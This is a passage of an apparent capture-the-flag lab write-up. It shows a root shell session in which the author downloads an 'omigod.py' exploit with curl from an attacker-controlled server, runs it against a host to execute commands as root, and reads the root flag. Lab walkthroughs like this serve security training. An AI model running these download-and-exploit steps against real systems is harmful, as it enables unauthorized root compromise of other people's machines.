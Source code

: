 ```
root@4a70924bafa0:/tmp# curl http://10.9.63.75:8000/omigod.py -o exploit.py
curl http://10.9.63.75:8000/omigod.py -o exploit.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2720  100  2720    0     0   7292      0 --:--:-- --:--:-- --:--:--  7292
root@4a70924bafa0:/tmp# ls -l
ls -l
total 5816
-rw-r--r-- 1 root   daemon    2720 Sep  7 11:20 exploit.py
-rwxr-xr-x 1 root   daemon 5944464 Sep  7 11:14 nmap
-rwxr-xr-x 1 daemon daemon      38 Sep  7 10:56 shell.sh
```

Next, I use the `.py` file to exploit the vulnerability:

```
root@4a70924bafa0:/tmp# python3 exploit.py -t 172.17.0.1 -c id
python3 exploit.py -t 172.17.0.1 -c id
uid=0(root) gid=0(root) groups=0(root)
```

The exploit script has worked successfully. Finally, I replace the `id` payload with commands to enumerate the **root flag** and read it:

```
root@4a70924bafa0:/tmp# python3 exploit.py -t 172.17.0.1 -c "find / -name 'root.txt'"
<ploit.py -t 172.17.0.1 -c "find / -name 'root.txt'"
/root/root.txt
```

```
root@4a70924bafa0:/tmp# python3 exploit.py -t 172.17.0.1 -c "cat /root/root.txt"
<n3 exploit.py -t 172.17.0.1 -c "cat /root/root.txt"
THM{REDACTED}
```
